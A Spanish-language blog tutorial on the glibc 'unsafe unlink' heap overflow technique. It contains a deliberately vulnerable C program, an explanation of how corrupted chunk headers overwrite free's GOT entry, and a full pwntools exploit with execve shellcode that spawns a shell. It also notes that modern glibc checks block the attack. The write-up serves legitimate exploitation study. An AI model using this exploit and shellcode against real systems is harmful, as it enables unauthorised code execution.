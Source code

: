 ```yaml
---
layout: post
title: Unlink SploitFUN
comments: true
categories: [Pwn, Writeups, SploitFUN]
---
```


Estudiando sobre Heap Overflows, llegué a la página de [sploitfun](https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/), donde se explicaba sobre una técnica que abusa el algoritmo para consolidar trozos al ser liberados en un heap. Me pareció interesante, por lo que hice esta versión simplificada y en castellano del post.

# Overview

Vamos a explotar una técnica de *Heap Overflow* conocida como ***unlink*** ó ***unsafe unlink***.

# Reconocimiento

Se nos da el siguiente programa:

```c
/* 
 Heap overflow vulnerable program. 
*/

#include <stdlib.h>
#include <string.h>

int main( int argc, char * argv[] )
{
        char * first, * second;

first = malloc( 666 ); /*[1]*/
second = malloc( 12 ); /*[2]*/
if(argc!=1) 
	strcpy( first, argv[1] ); /*[3]*/

free( first ); /*[4]*/
free( second ); /*[5]*/

return( 0 ); /*[6]*/
}
```

Podemos ver que en la línea 3 se produce un *Heap Overflow* ya que se copia el input del usuario en `first` sin ninguna comprobación. El heap se vería así:

![Image]({{ site.baseurl }}/images/posts/2024-10-21-Unlink-SploitFUN-1.png)

## Técnica unlink

> [_Unlink_](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c):  The main idea of this technique is to trick ‘glibc malloc’ to unlink the ‘second’ chunk. While unlinking GOT entry of free would get overwritten with shellcode address!! After successful overwrite, now when free is called by vulnerable program at line [5], shellcode would get executed. Not very clear? No problem, first lets see what ‘glibc malloc’ does when free gets executed.

Es decir, queremos hacer que el chunk `second` sea "unlinkeado", de forma que cuando se esté desenlazando, la entrada en la *GOT* de `free` se sobrescriba con un *shellcode* y al llamarse en la línea 5, se ejecute dicho shellcode.

### Explicación

Sin la influencia de un atacante, **free** hace lo siguiente (para chunks [*non mmaped*](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L10), es decir fruto de una llamada a `mmap`):

- Consolidar hacia detrás (**consolidate backwards**):
	- Comprueba si *el chunk previo está libre* - Si el actual tiene el bit `PREV_INUSE (P)` en 0. En nuestro caso no está libre (`first` tiene el bit activo). Por defecto, el chunk previo al primer chunk del heap tiene este bit activo aunque no esté libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk previo de su *bin*, se suman los tamaños del actual y el anterior, y se mueve el chunk pointer al chunk previo. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Consolidar hacia delante (**consolidate forward**):
	- Comprueba si *el siguiente chunk está libre* - Comprueba si el siguiente al siguiente tiene el bit `PREV_INUSE (P)` en 0, para ello avanza al siguiente chunk sumando `size` al chunk pointer, y repite la operación para llegar al siguiente. En nuestro caso, comprobará el bit del `top`, que dirá que el anterior (`second`) no está libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk siguiente de su *bin*, se suman los tamaños del actual y el siguiente. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Finalmente, en caso de realizarse una consolidación, se añade el resultado a la bin correspondiente.

# Explotación

Pongamos ahora, que mediante el [[Heap Overflow]] de la línea 3, un atacante sobrescribe las cabeceras de `second` de forma que quedan:

```
prev_size = PREV_INUSE bit a 0 (numero par)
size = -4
fd = dirección de free – 12
bk = dirección de un shellcode
```

Como hemos logrado manipular las cabeceras, al invocarse **free**, el comportamiento será diferente:

1. Como *no es mmaped*, trata de consolidar:
2. Consolidar hacia atrás:
	- Comprueba si el chunk previo está libre, en este casó lo está, pero al ser `first` el chunk siguiente al primer chunk del heap, tiene por defecto el bit `PREV_INUSE (P)` activado por defecto. Por tanto, no podemos consolidar hacia atrás.
3. Consolidar hacia delante:
	- Normalmente, el siguiente chunk al siguiente sería `top`. Sin embargo, como hemos sobrescrito el tamaño de `second` con `-4`, el siguiente chunk empezaría a partir de un offset de 4 bytes del `second`, tratando el campo `PREV_INUSE (P)` de `second` como el del siguiente chunk, como hemos puesto un valor par, interpretará que es 0, es decir que está libre.
	- Como está "libre", consolida hacia delante:
		1. Copia `fd` y `bk` de `second` en las variables `FD` y `BK`, en nuestro caso:  `FD = dirección de free - 12` y `BK = direccion de un shellcode`.
		2. `BK` se copia 12 bytes después de `FD`, en nuestro caso, apunta a la dirección en la *GOT* de *free*, de forma que en caso de llamar a *free*, se ejecutará el shellcode.
4. Finalmente se añade el chunk consolidado a una bin.

El heap después de introducirse los datos se vería:

![Image]({{ site.baseurl }}/images/posts/2024-10-21-Unlink-SploitFUN-2.png)

Sabiendo todo esto, podemos crear un script en python utilizando *pwntools*:

```python
#!/bin/python3
from pwn import *

# Dirección de la función 'free' en la GOT (obtenida con objdump)
FUNCTION_POINTER = 0x0804978c 
# Dirección de la variable 'first' en el ejecutable vulnerable
CODE_ADDRESS = 0x0804a008 + 0x10 

# Nombre del binario vulnerable
VULNERABLE = './vuln'
DUMMY = 0xdefaced
PREV_INUSE = 0x1

# Shellcode
shellcode = (
    b"\xeb\x0a"          # Jump 10 bytes
    b"ssppppffff"        # Si no hacemos este salto, la llamada a unlink nos corrompe el shellcode
    b"\x31\xc0"          # xor eax, eax
    b"\x50"              # push eax
    b"\x68\x2f\x2f\x73\x68"  # push '//sh'
    b"\x68\x2f\x62\x69\x6e"  # push '/bin'
    b"\x89\xe3"          # mov ebx, esp
    b"\x50"              # push eax
    b"\x89\xe2"          # mov edx, esp
    b"\x53"              # push ebx
    b"\x89\xe1"          # mov ecx, esp
    b"\xb0\x0b"          # mov al, 11 (syscall execve)
    b"\xcd\x80"          # int 0x80 (syscall)
)

# Conexión al binario vulnerable
io = process(VULNERABLE)

# Generar payload
payload = b""
payload += p32(DUMMY)  # fd of first chunk
payload += p32(DUMMY)  # bk of first chunk
payload += p32(DUMMY)  # fd_nextsize of first chunk
payload += p32(DUMMY)  # bk_nextsize of first chunk
payload += shellcode   # Copiar shellcode

# Padding
padding_length = 680 - 4*4 - (4*4 + len(shellcode))
payload += b"B" * padding_length

# Campos del segundo chunk
payload += p32(DUMMY & ~PREV_INUSE)  # prev_size of second chunk
payload += p32(-4)  # size of second chunk
payload += p32(FUNCTION_POINTER - 12)  # fd del segundo chunk
payload += p32(CODE_ADDRESS)  # bk del segundo chunk (dirección del shellcode)

# Enviar el payload
io.sendline(payload)

# Interactuar con la shell
io.interactive()
```

Si ejecutamos, veremos que somos capaces de spawnear una shell.

Sin embargo, a día de hoy, existen diversas protecciones que prevendrán este ataque:

- **Double free check**
- **Invalid next size**
- **Corrupted double linked list**

Por lo que aunque en sistemas antiguos podamos realizarlo, para implementaciones más modernas debemos utilizar técnicas más sofisticadas que trataremos en próximos posts. Si te ha interesado y quieres profundizar en el tema, te recomiendo leer el paper [Vudo malloc tricks](http://phrack.org/issues/57/8.html).
